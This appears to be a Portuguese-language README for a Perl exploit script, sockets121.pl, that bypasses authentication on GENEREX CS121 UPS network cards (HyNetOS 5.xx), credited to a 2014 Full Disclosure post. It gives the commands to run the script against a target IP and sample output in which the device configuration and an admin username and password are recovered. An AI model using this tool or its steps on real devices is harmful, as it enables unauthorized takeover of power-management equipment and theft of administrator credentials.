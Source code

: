 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX:  
 -  Os créditos são totalmente do JKMAC da seclists.org:  
 https://seclists.org/fulldisclosure/2014/May/75  


 ## Utilização:
 - Dê permissão de executavel no arquivo sockets121.pl:  
 
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), **ex: ./sockets121.pl 192.168.10.10**  
  O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
